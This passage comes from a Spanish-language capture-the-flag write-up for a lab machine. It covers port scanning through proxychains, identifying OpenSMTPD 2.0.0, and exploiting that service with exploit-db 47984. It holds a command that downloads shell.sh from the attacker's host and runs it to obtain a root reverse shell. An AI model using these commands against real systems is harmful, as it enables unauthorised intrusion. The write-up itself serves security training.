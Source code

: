 ```bash
❯ nano script.sh
❯ ./script.sh | grep -v 'ProxyChains-3.1 (http://proxychains.sf.net)'
[!] Puerto 22 del host 10.241.251.1 ABIERTO
[!] Puerto 53 del host 10.241.251.1 ABIERTO
[!] Puerto 88 del host 10.241.251.1 ABIERTO
[!] Puerto 749 del host 10.241.251.1 ABIERTO
[!] Puerto 3128 del host 10.241.251.1 ABIERTO
```

Debido a la tardanza puse los puertos bien conocidos. Finalmente descubrí lo siguiente.

```bash
❯ ./script.sh | grep -v 'ProxyChains-3.1 (http://proxychains.sf.net)'
[!] Puerto 22 del host 10.241.251.1 ABIERTO
[!] Puerto 25 del host 10.241.251.113 ABIERTO
```

### SMTP EXPLOIT

El puerto 25 (smtp) esta abierto en el host 10.241.251.113 vamos a indagar un poco mas con nmap.

```bash
PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
| smtp-commands: smtp.realcorp.htb Hello nmap.scanme.org [10.241.251.1], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP, 
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info 
Service Info: Host: smtp.realcorp.htb
```

Usa una versión bastante antigua si usamos este exploit  https://www.exploit-db.com/exploits/47984 podemos ejeucutar comandos a nivel de sistema e intentar establecernos una revshell. Tendremos que modificar el exploit porque el destinatario debe existir. En este caso es el mail que teniamos anteriormente.

Tendremos que ejecutar el exploit tirando de proxychains

```bash
❯ proxychains python3 47984.py 10.241.251.113 25 'wget 10.10.16.4/shell.sh -O /tmp/shell.sh; bash /tmp/shell.sh'
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-10.10.10.224:3128-<>-127.0.0.1:3128-<>-10.197.243.77:3128-<><>-10.241.251.113:25-<><>-OK
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```


Si revisamos nuestro listener veremos que tenemos una shell.

```bash
root@smtp:~# export TERM=xterm
root@smtp:~# export SHELL=bash
root@smtp:~# stty rows 51 columns 189
root@smtp:~# 
```
